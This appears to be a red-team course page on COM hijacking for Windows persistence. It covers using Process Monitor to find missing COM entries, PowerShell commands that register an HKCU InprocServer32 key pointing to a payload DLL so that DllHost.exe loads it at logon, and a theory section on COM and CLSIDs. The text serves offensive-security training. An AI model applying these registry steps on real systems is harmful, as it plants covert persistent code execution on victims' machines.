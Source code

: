 
### Finding COM hijacks
[Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) (aka procmon) from Sysinternals is an excellent tool for finding COM hijacking opportunities, as it displays real-time access to the registry.  It can be used to find instances where a process is attempting to load a COM object that it couldn't find.

> An adversary will typically do this analysis on their own machine (i.e. in a VM that they've setup to replicate the environment of their target).  They will also test the hijack in this VM to ensure it's stable before using it on the target system.

Add some filters in procmon where:

- The _Operation_ is **RegOpenKey**.
    
- The _Path_ contains **InprocServer32** or **LocalServer32**.
    
- The _Result_ is **NAME NOT FOUND**.
    

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/9a2ba59b36ee0ec8b123afa9f0a86191.png)

As indicated by the image above, you will see thousands of these.  The results can be analysed directly in procmon, or exported in a format such as CSV.  Exporting the results is useful for frequency analysis (i.e. when looking for a COM object that's loaded a modest number of times).

---

A COM object I've used in the past is one loaded by DllHost.exe:  `HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32`.

We can see that this key does exist in HKLM, but not in HKCU.

```powershell
PS C:\Users\Attacker> Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"

    Hive: HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment

PS C:\Users\Attacker> Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```

To test the hijack, create the registry key for the given CLSID and then the InprocServer32 value.  For ease, we can point it directly to a DLL payload in the `C:\Payloads` directory.

```powershell
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
PS C:\Users\Attacker> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

Logging out and back again will trigger DllHost.exe to load the COM object, and you should have a new Beacon.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/a09e0d554a95bb62ad5a26a0c696784c.png)


### Theory

The Component Object Model (COM) can be a bit tricky to wrap your head around at first.  The following explanation is an over-simplification, but it should be enough for you to understand the premise.  COM provides an interoperability standard so that applications written in different languages can reuse the same software libraries.

COM exposes its features through interfaces, which if you're not familiar with, is like a software contract.  Take the following C# as an example:

```c#
interface IMyInterface
{
    string MyMethod(string myInput);
}
```

This interface defines the method that a caller can invoke.  A caller has no knowledge about the internal workings of the library - it just knows the method name, what input is required, and what it returns.  If we wanted to write a library that implemented this interface, it could look something like this:

```c#
class MyImplementation : IMyInterface
{
    public string MyMethod(string myInput)
    {
        Console.WriteLine(myInput);
        return $"You said: {myInput}.";
    }
}
```

In COM nomenclature, a "component" (also known as a "COM object") is an interface and its associated implementation (i.e. the actual working code behind the interface).  Every COM object is tracked in the registry by a unique identifier called a CLSID (which are just GUIDs), and can be found in `HKEY_CLASSES_ROOT\CLSID`.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/0116ad707871dd73cb981af873eabfcf.png)

Under each entry, you will find another key called **InProcServer32** or **LocalServer32**, and within those keys will be a path on disk to the DLL or EXE (respectively) that provides the COM functionality. 

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/5935c91c70ff9afb3685c06b206b764c.png)

COM hijacking is a technique [[T1546.015](https://attack.mitre.org/techniques/T1546/015/)] where an adversary can change or leverage a COM entry to trick an application into loading/executing their malicious code, instead of the intended COM object.

There are a few ways in which this can be achieved.  The first is through partially missing COM entries.  The entires in HKEY_CLASSES_ROOT are merged from two locations: `HKEY_LOCAL_MACHINE\Software\Classes` and `HKEY_CURRENT_USER\Software\Classes`.  For processes that execute under the context of a standard user, COM entries in HKCU take priority over HKLM.  If a COM entry is only defined in HKLM and **not** in HKCU, the reference can be hijacked by writing a new entry into the HKCU hive for that CLSID.  Another way is if a COM entry points to a DLL or EXE that doesn't exist on disk, and the location is writable by standard users.  This can occur when 3rd party software gets uninstalled and fails to remove any COM entries that it added during installation.

The trick with COM hijacking is to find an object that:

- Doesn't break loads of software, or even the entirety of Windows, when hijacked. 
    
- Isn't loaded a bazillion times a minute, which would render the system inoperable.


